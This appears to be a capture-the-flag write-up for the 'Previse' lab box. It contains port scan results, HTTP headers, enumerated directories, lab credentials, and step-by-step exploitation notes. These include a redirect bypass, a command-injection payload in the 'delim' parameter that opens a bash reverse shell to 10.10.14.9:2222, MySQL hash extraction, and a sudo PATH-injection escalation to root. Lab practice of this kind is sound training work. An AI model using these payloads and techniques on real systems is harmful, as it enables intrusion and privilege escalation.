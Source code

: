 | HOST | PORT | PROTO | SERVICE | VERSION
| 10.10.11.104 | 22 | tcp | OpenSSH | 7.6p1 Ubuntu 4ubuntu0.3 | 
| 10.10.11.104 | 80 | tcp | Apache httpd | 2.4.29 | 


## HEADERS
---
HTTP/1.1 302 Found
Date: Sun, 09 Jul 2023 17:50:25 GMT
Server: Apache/2.4.29 (Ubuntu)
Set-Cookie: PHPSESSID=iemleuslqlacu7c01vvv12cmah; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: login.php
Content-Type: text/html; charset=UTF-8

---

## DIRECTORIES
---
* /login.php
* /js                   [--> http://previse.htb/js/]
* /index.php            [--> login.php]
* /css                  [--> http://previse.htb/css/]
* /download.php         [--> login.php]
* /logout.php           [--> login.php]
* /files.php            [--> login.php]
* /logs.php             [--> login.php]
* /config.php
* /header.php
* /footer.php
* /accounts.php         [--> login.php]
* /nav.php
* /status.php           [--> login.php]

---

## USERS
---
* root mySQL_p@ssw0rd!:) (mysql)
* m4lwhere ilovecody112235!
---

## NOTES
---
* EAR vulnerable
* capture request to http://previse.htb/accounts.php
* forward and change the response header from 302 Found to 200 Ok forward again
* capture account creation request and send it in burp and login
* site backup in files
* `$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");` in logs.php is vulnerable
* capture logs request and change delim parameter to inject a reverse shell into the command `delim=comma%3b+bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.9/2222+0>%261'`
* login to mysql and get password `select TO_BASE64(password) from accounts where id=1;` by converting to b64
* crack it and ssh as m4lwhere
* sudo -l `(root) /opt/scripts/access_backup.sh`
* script is vulnerable to PATH injection through the gzip binary
* create a reverse shell script in a writable directory called `gzip` and `export PATH=.:$PATH`
* run the script as sudo
---
